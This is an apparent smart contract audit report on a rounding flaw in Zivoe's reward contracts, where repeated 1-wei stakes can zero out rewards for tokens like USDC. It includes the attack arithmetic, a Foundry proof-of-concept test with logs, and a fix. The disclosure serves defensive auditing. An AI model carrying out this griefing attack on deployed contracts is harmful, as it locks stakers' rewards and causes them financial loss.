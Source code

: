 Fierce Crepe Sloth

high

# If the reward token in ZivoeRewards and ZivoeRewardsVesting is a token with less than 18 decimals, rewards may get stuck in the contract

## Summary
The ``ZivoeRewards.sol`` and ``ZivoeRewardsVesting.sol`` contracts allow for multiple tokens to be used as rewards simultaneously. The ``ZivoeRewards.sol``  contract is a fork of the Synthetix rewards distribution contract, with slight modifications allowing for multiple tokens with different decimals to be used as rewards, requiring the new reward to be deposited when calling the [depositReward()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function , and allowing everybody to call the [depositReward()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function with no minimum amount required. However tokens with less than 18 decimals can result in rewards being locked in the contract, and stakers not receiving their rewards.  Rewards will be distributed for a period of 30 days in most cases as the main source of rewards will come from the ``ZivoeYDL.sol`` contract. The amounts in the following example are chosen to better illustrate the severity of the attack, they are not a specific edge case. Now lets take the USDC token as the rewards token. We have a total stake of **5_000_000e18 tokens**, no matter in which ``ZivoeRewards.sol`` instance (it can be the junior, senior or the zve staking rewards instances). We have a reward of **50_000e6 tokens**  that have to be distributed towards the stakers. If there are no previous rewards for the specific token deposited the ``rewardRate`` will be calculated by the [depositReward()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function in the following way:

```solidity
  rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
```

*30 days = 2592000 seconds*
*50_000e6 / 2592000 = 19290*

The [rewardPerToken()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L196-L203) function updates the ``rewardPerTokenStored`` which is a global variable, as well as the ``lastUpdateTime`` meaning that if one user stakes or withdraws this values will be updated, and later used in the reward calculations for other users. 
```solidity
lastTimeRewardApplicable(_rewardsToken).sub(rewardData[_rewardsToken].lastUpdateTime)
```
is the duration between someone staking, withdrawing his stake or withdrawing his rewards. 
The [rewardPerToken()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L196-L203) function calculates rewards in the following way:

```solidity
   function rewardPerToken(address _rewardsToken) public view returns (uint256 amount) {
        if (_totalSupply == 0) { return rewardData[_rewardsToken].rewardPerTokenStored; }
        return rewardData[_rewardsToken].rewardPerTokenStored.add(
            lastTimeRewardApplicable(_rewardsToken).sub(
                rewardData[_rewardsToken].lastUpdateTime
            ).mul(rewardData[_rewardsToken].rewardRate).mul(1e18).div(_totalSupply)
        );
    }
```
Let **X** be the time interval between user actions and **Y**  be the ``rewardPerTokenStored``, we get the following equation:

*Y + (X \* 19_290 \* 1e18 / 5_000_000e18)*
If **Y = 0** and **X <= 250** the result will always be **0**. **250 seconds** is **4 minutes and 10 seconds**. So if an attacker calls the [stake()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L253-L262) function every **4 minutes** and stakes **1 WEI**, and starts doing this once the rewards are deposited, no rewards will accrue. Resulting in stakers not receiving any rewards, and tokens being stuck in the contract, as there is no mechanism to withdraw them, and once some time has passed the rewards for that time can't be added to a next reward period. Lets say **10 days** which is **864_000 seconds** has passed **16_666_560_000 ≈ 16_666e6 tokens** will be locked forever due to the way rewards are calculated if the current period hasn't finished:

```solidity
     uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
     uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
     rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
```
A malicious user can further dilute the ``rewardRate`` as the [depositReward()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function can be called by anyone with a reward parameter = 0, but this is an issue of it own. Lets say 10 days have passed, 

*remaining = 1_728_000 seconds*
*leftover = 1_728_000 \* 19_290 = 33_333_120_000*
*rewardRate = 33_333_120_000 / 2_592_000 = 12_860*

As we can see the ``rewardRate`` becomes a lot less, if rewards are diluted, this way the malicious user can call the [stake()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L253-L262) function less often and still achieve the same result. Or if the reward deposited is too big, and a malicious actor can't make the amount added to the ``rewardPerTokenStored`` to be equal to 0, no matter the time interval, lowering the ``rewardRate`` will help him achieve that. Due to the following line in the [depositReward()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function:
```solidity
      IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);
```
rewards, that were not properly distributed can't be used in new reward periods.
## Vulnerability Detail
[Gist](https://gist.github.com/AtanasDimulski/e2edba2c03e4dd1325b9e73c8fd58ddb)

After following the steps in the above linked [gist](https://gist.github.com/AtanasDimulski/e2edba2c03e4dd1325b9e73c8fd58ddb) add the following test to ``AuditorTests.t.sol``:

```solidity
    function test_RewardsWithLessDecimalsWillBeLost() public {
        vm.startPrank(ZVL);
        zivoeToken.transfer(alice, 5_000_000e18); // this will represent the total stake in the stZVE contract
        zivoeToken.transfer(attacker, 1e18);
        uint256 duration = 30 days;
        stZVE.addReward(address(mockUSDC), duration);
        vm.stopPrank();

        vm.startPrank(alice);
        zivoeToken.approve(address(stZVE), type(uint256).max);
        stZVE.stake(5_000_000e18);
        vm.stopPrank();

        vm.startPrank(simulateYLD);
        mockUSDC.mint(simulateYLD, 50_000e6); // this represent 50_000 USDC tokens to be distributed in 30 days
        mockUSDC.approve(address(stZVE), type(uint256).max);
        stZVE.depositReward(address(mockUSDC), 50_000e6);
        vm.stopPrank();

        vm.startPrank(attacker);
        zivoeToken.approve(address(stZVE), type(uint256).max);
        console2.log("Initial block timestamp: ", block.timestamp);
        skip(249);
        stZVE.stake(1);
        console2.log("The amount that alice have earned after ", block.timestamp, stZVE.earned(alice, address(mockUSDC)));
        skip(249);
        stZVE.stake(1);
        console2.log("The amount that alice have earned after: ", block.timestamp, stZVE.earned(alice, address(mockUSDC))); // after 498 seconds has passed reawrds should have been 5000000
        skip(249);
        stZVE.stake(1);
        console2.log("The amount that alice have earned after: ", block.timestamp, stZVE.earned(alice, address(mockUSDC))); // after 498 seconds has passed reawrds should have been 10000000
        vm.stopPrank();
    }
```

```solidity
Logs:
  Initial block timestamp:  1
  The amount that alice have earned after  250 0
  The amount that alice have earned after:  499 0
  The amount that alice have earned after:  748 0
```

To run the test use: ``forge test -vvv --mt test_RewardsWithLessDecimalsWillBeLost``

## Impact
Users that have staked their tokens won't receive rewards, and the reward tokens will be stuck in the contract, as there  is no mechanism to withdraw them, or include them in a new reward distribution period. 

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L196-L203

## Tool used
Manual Review & Foundry

## Recommendation
Consider a way to convert tokens with decimals less than 18 to an amount with 18 decimals